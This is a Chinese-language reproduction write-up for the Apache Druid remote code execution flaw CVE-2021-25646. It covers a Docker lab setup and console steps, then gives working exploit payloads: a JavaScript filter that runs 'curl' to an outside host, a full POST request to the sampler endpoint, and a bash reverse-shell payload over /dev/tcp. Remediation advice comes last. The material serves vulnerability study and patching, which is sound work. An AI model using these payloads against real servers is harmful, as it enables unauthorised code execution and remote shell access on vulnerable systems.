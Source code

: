 # Apache Druid 远程代码执行漏洞 (CVE-2021-25646) 漏洞复现



# 0x00 前言


阿里云安全向Apache官方报告了Apache Druid远程代码执行漏洞，分配CVE编号为CVE-2021-25646
# 0x01 漏洞描述


Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的json串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。


# 0x02 影响范围
Apache Druid < 0.20.1

# 0x03 漏洞复现
## 环境搭建
apache druid:0.16.0
```python
参考现有的低版本druid
docker pull fokkodriesprong/docker-druid
docker run --rm -i -p 8888:8888 fokkodriesprong/docker-druid
```
## 漏洞复现
访问8888 端口进入Druid console
![image.png](https://cdn.nlark.com/yuque/0/2021/png/336528/1612249201471-52d15d2a-9600-446d-ad0d-0d9a8a20282d.png#align=left&display=inline&height=499&margin=%5Bobject%20Object%5D&name=image.png&originHeight=998&originWidth=2780&size=435819&status=done&style=none&width=1390)
点击Load data -->Local disk![image.png](https://cdn.nlark.com/yuque/0/2021/png/336528/1612249313276-05667cda-b007-45eb-a3a5-f60f437adaac.png#align=left&display=inline&height=439&margin=%5Bobject%20Object%5D&name=image.png&originHeight=878&originWidth=1774&size=375088&status=done&style=none&width=887)
填入

- **Base directory**: `quickstart/tutorial/`

- **File filter**: `wikiticker-2015-09-12-sampled.json.gz`


![image.png](https://cdn.nlark.com/yuque/0/2021/png/336528/1612249338797-a8aae6a6-49bd-474a-824e-90313e0c63cf.png#align=left&display=inline&height=469&margin=%5Bobject%20Object%5D&name=image.png&originHeight=938&originWidth=674&size=382868&status=done&style=none&width=337)
一直点击next到filter项（设置步骤可参考：[https://druid.apache.org/docs/latest/tutorials/index.html](https://druid.apache.org/docs/latest/tutorials/index.html)）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/336528/1612249537114-6a9f4429-47b6-483f-8935-70cd5befdc5b.png#align=left&display=inline&height=684&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1368&originWidth=2726&size=1464168&status=done&style=none&width=1363)
抓包修改filter为
```python
{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('curl ip:8000')}",
"dimension":"added",
"":{
"enabled":"true"
}
}
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/336528/1612249945871-7d5dbef2-212d-437e-af2a-485af6ba592c.png#align=left&display=inline&height=473&margin=%5Bobject%20Object%5D&name=image.png&originHeight=946&originWidth=2836&size=970432&status=done&style=none&width=1418)

对应post包为
```python
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: tls.com:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 623
Origin: http://tls.com:8888
Connection: close
Referer: http://tls.com:8888/unified-console.html


{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"quickstart/tutorial/","filter":"wikiticker-2015-09-12-sampled.json.gz"}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('curl yourip:8000')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"cacheKey":"79a5be988bf94d42a6f219b63ff27383"}}
```
反弹shell
```python
{
					"type": "javascript",
					"dimension": "added",
					"function": "function(value) {java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx/xxx 0>&1')}",
					"": {
						"enabled": true
					}
				}
```
# 0x04 修复建议
升级Apache Druid 到最新的0.20.1版本 [https://github.com/apache/druid/releases/tag/druid-0.20.1](https://github.com/apache/druid/releases/tag/druid-0.20.1)
对Apache Druid进行权限控制，只允许受信任的主机访问集群服务器




# 0x05 References
[https://github.com/Fokko/docker-druid](https://github.com/Fokko/docker-druid)
[https://druid.apache.org/docs/latest/tutorials/index.html](https://druid.apache.org/docs/latest/tutorials/index.html)
